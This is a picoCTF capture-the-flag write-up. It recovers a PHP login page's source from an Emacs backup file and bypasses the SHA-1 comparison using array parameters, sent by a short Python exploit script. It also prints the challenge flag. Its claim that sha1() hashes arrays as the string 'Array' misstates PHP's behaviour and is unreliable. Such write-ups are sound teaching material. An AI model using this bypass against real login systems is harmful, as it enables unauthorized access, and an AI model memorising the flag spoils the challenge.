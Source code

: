 # Apriti Sesamo

|  | 300 points

Author: Junias Bonou

### Description

I found a web app that claims to be impossible to hack!

Hints:

1. Backup files
2. Rumor has it, the lead developer is a militant emacs user

![image](https://github.com/user-attachments/assets/1f6fff7c-1374-4f58-8a75-465325ecba96)

![image 1](https://github.com/user-attachments/assets/4965c5b4-fb74-46aa-846e-0face183baf1)

In Emacs, when you edit and save a file, it often creates a backup copy of the original file by appending a "~" symbol to the filename. This backup file might contain the original code.

/impossibleLogin.php~

```php
<?php 
	if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
		$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");
	} else
		{
			if(sha1($yuf85e0677)===sha1($rs35c246d5))
			{
				echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));
			} else
			{
				echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");
			}
	}
}?>

WHICH MEANS:

<?php
if (isset($_POST["username"]) && isset($_POST["pwd"])) {
    $username = $_POST["username"];
    $password = $_POST["pwd"];
    if ($username == $password) {
        echo "Login failed!";
    } else {
        if (sha1($username) === sha1($password)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "Failed! No flag for you";
        }
    }
}
?>
```

- **Condition 1**: If username equals pwd ($username == $password), the login fails immediately.
- **Condition 2**: If username and pwd are different ($username != $password) but their SHA-1 hashes are identical (sha1($username) === sha1($password)), the flag is returned.
- **Otherwise**: If neither condition is met, it outputs the failure message you’re seeing.

### Exploiting PHP Type Juggling

In PHP, the sha1() function expects a string input. If you pass a non-string type like an array, PHP converts it to the string "Array" before hashing

- If username is an array like ["a"] and pwd is an array like ["b"]:
    - username != pwd because ["a"] and ["b"] are different arrays (array comparison in PHP checks key/value pairs).
    - sha1($username) becomes sha1("Array"), and sha1($pwd) also becomes sha1("Array"), which are equal because they hash the same string.

Our payload:

```jsx
import requests

url = "http://verbal-sleep.picoctf.net:50765/impossibleLogin.php"
data = {
    "username[]": "a",
    "pwd[]": "b"
}
response = requests.post(url, data=data)
print(response.text)
```

![image 2](https://github.com/user-attachments/assets/cc64e10d-bf6d-4998-848e-cd2d8865a2db)

The warning triggers because it received an array instead of a string. PHP’s type juggling kicks in here, converting both arrays to "Array", which is why the hashes match.

- Each call to sha1() (once for username and once for pwd) triggers a warning because it received an array instead of a string.
- PHP’s type juggling kicks in here, converting both arrays to "Array", which is why the hashes match.
- Then we get the flag: picoCTF{w3Ll_d3sErV3d_Ch4mp_2d9f3447}
